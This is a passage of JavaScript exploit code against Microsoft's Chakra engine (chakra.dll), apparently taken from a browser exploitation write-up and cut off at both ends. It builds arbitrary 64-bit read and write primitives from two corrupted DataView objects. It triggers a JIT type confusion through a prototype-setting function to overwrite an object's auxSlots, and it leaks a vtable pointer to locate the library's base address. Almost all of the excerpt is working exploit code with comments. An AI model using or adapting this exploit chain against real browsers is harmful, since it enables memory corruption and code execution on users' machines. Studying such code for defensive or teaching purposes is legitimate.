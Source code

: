 ```html
    arrayRead[0] = dataview2.getInt32(0x0, true);   // 4-byte arbitrary read
    arrayRead[1] = dataview2.getInt32(0x4, true);   // 4-byte arbitrary read

    // Return the array
    return arrayRead;
}

// Arbitrary write function
function write64(lo, hi, valLo, valHi) {
    dataview1.setUint32(0x38, lo, true);        // DataView+0x38 = dataview2->buffer
    dataview1.setUint32(0x3C, hi, true);        // We set this to the memory address we want to write to (4 bytes at a time: e.g. 0x38 and 0x3C)

    // Perform the write with our 64-bit value (broken into two 4 bytes values, because of JavaScript)
    dataview2.setUint32(0x0, valLo, true);       // 4-byte arbitrary write
    dataview2.setUint32(0x4, valHi, true);       // 4-byte arbitrary write
}

// Function used to set prototype on tmp function to cause type transition on o object
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

// main function
function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    document.write("[+] DataView object 2 leaked vtable from chakra.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
    document.write("<br>");

    // Store the base of chakra.dll
```